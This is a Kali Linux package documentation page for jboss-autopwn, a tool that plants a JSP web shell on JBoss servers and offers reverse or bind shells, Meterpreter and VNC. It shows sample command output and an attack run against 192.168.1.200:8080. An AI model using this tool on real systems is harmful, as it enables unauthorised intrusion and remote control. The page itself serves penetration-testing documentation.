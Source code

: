 ```yaml
---
Title: jboss-autopwn
Homepage: https://github.com/SpiderLabs/jboss-autopwn
Repository: https://gitlab.com/kalilinux/packages/jboss-autopwn
Architectures: all
Version: 0.1-1kali1
Metapackages: kali-linux-everything kali-linux-large kali-tools-web 
Icon: images/jboss-autopwn-logo.svg
PackagesInfo: |
 ### jboss-autopwn
 
  This JBoss script deploys a JSP shell on the target JBoss
  AS server. Once deployed, the script uses its upload and
  command execution capability to provide an interactive
  session.
   
  Features include:
     - Multiplatform support - tested on Windows, Linux and Mac targets
     - Support for bind and reverse bind shells
     - Meterpreter shells and VNC support for Windows targets
 
 **Installed size:** `114 KB`  
 **How to install:** `sudo apt install jboss-autopwn`  
 
 {{< spoiler "Dependencies:" >}}
 * curl
 * metasploit-framework
 {{< /spoiler >}}
 
 ##### jboss-linux
 
 
 ```
 root@kali:~# jboss-linux -h
 [x] Retrieving cookie
 [x] Now creating BSH script...
 [!] Cound not create BSH script..
 [x] Now deploying .war file:
 [x] Something went wrong...
 ```
 
 - - -
 
 ##### jboss-win
 
 
 ```
 root@kali:~# jboss-win -h
 [x] Retrieving cookie
 [x] Now creating BSH script...
 [x] .war file created successfully on c: 
 [x] Now deploying .war file:
 [x] Web shell enabled!: http://-h:/browserwin/browser/Browser.jsp
 [x] Server name...:
 Usage: ncat [options] [hostname] [port]
   -n, --nodns                Do not resolve hostnames via DNS
       --allow                Allow only given hosts to connect to Ncat
       --allowfile            A file of hosts allowed to connect to Ncat
       --deny                 Deny given hosts from connecting to Ncat
       --denyfile             A file of hosts denied from connecting to Ncat
       --proxy <addr[:port]>  Specify address of host to proxy through
 [x] Would you like a reverse or bind shell or vnc(bind)? 
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## jboss-autopwn Usage Example

Attack the target server (`192.168.1.200`) on the specified port (`8080`), redirecting stderr (`2> /dev/null`):

```
root@kali:~# jboss-linux 192.168.1.200 8080 2> /dev/null
[x] Retrieving cookie
[x] Now creating BSH script...
[!] Cound not create BSH script..
[x] Now deploying .war file:
```
